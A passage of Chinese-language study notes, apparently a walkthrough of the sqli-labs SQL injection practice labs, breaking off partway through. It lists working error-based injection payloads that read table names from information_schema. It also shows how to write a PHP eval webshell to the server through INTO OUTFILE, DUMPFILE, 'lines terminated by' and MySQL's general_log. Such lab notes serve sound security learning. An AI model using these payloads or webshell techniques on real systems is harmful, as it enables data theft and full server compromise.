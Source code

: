 4. 利用：

    报错当前数据库的列名。

    `and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e), 1) -- -`

    或者：

    `and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e)) -- -`

    或者：

    `union select 1,count(*),concat(0x7e, 0x7e, (select table_name from information_schema.tables where table_schema = database() limit 0,1), 0x7e, 0x7e, floor(rand(0)*2)) x from information_schema.tables group by x -- -`

    `concat()` 负责将内容整合成字符串，这里 table_name 使用  `group_concat()` 会无效。所以用  `limit` 来获取。

## 4. Less-7（写入木马文件、读文件）

1. 使用条件：

    1. `secure_file_priv` 的值不能为 NULL，NULL 代表 MySQL 不允许导入导出。

        若没有具体的值，就代表不限制导入导出

        否则就是具体路径

    2. 查看 `secure_file_priv` 的参数的值：

        `show global variables like '%secure%';`

    3. 默认情况下，该值为 NULL。

2. outfile 和 dumpfile

    假设有一个二进制文件，如果用 outfile 导入，则在导出过程中会被转义从而被破坏，这是只能使用 dumpfile 函数。即 dumpfile 不会对行列进行终止与转义。

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO OUTFILE '路径' -- -`

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO dumpfile'路径' -- -`

3. `lines terminated by 'webshell 语句'` 在 select 后面使用，作用是在每行终止的位置添加 webshell 语句。

    `select * from users where id='1' into outfile '文件路径' lines terminated by 'webshell 语句'`

4. 同理，有 `lines terminated by` 就有 `lines starting by`

5. 有从头尾插入，就有从中间插入：`fields 或者 columns terminated by`

6. 当有 MySQL 的 root 权限时，可以通过修改 MySQL 的 log 文件来 getshell

    1. 先查看配置，需要 MySQL 的 `general_log` 属性为 on：

        `show variables like '%general%';`

    2. 如果没有开，那就开：

        `set global general_log = on;`

    3. 设置日志目录（为 shell 地址）
